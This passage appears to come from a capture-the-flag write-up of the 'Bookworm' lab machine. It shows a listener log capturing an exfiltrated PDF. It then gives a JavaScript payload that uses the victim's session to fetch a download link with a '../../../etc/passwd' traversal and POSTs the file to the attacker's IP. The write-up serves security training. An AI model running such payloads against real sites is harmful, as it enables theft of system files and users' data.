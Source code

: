 After a few minutes we have successfully get the file contain pdf

```
10.10.11.215 - - [23/Jan/2024 08:46:53] "POST / HTTP/1.1" 200 -
%PDF-1.3
3 0 obj
<</Type /Page
/Parent 1 0 R
/Resources 2 0 R
/Contents 4 0 R>>
endobj
4 0 obj
<</Filter /FlateDecode /Length 95>>
stream
x 3R  2 35W( r
Q w3T04 Z* [ ꙛ+  (hx$ +x  $ f i* d    L2 `  k gf P    c  
endstream
endobj
1 0 obj
<</Type /Pages
/Kids [3 0 R ]
/Count 1
/MediaBox [0 0 595.28 841.89]
>>
```


## Local File Inclusion

Let's now test for a Local File Inclusion (LFI) vulnerability using the format of the "Download everything" links

Look at `bookIds=` there combine to another files pdf so i think maybe we can Directory traversal and exploit Lfi .


```
fetch('/profile', {credentials: 'include'})

.then((resp) => resp.text())

.then((resptext) => {

  order_id = resptext.match(/\/order\/(\d+)/);

  fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=../../../etc/passwd", {credentials: 'include'})

  .then((resp2) => resp2.blob())

  .then((data) => {

    fetch("http://10.10.14.122/upload", { 

      method: "POST",

      mode: 'no-cors',

      body: data

    });

  });

});
```
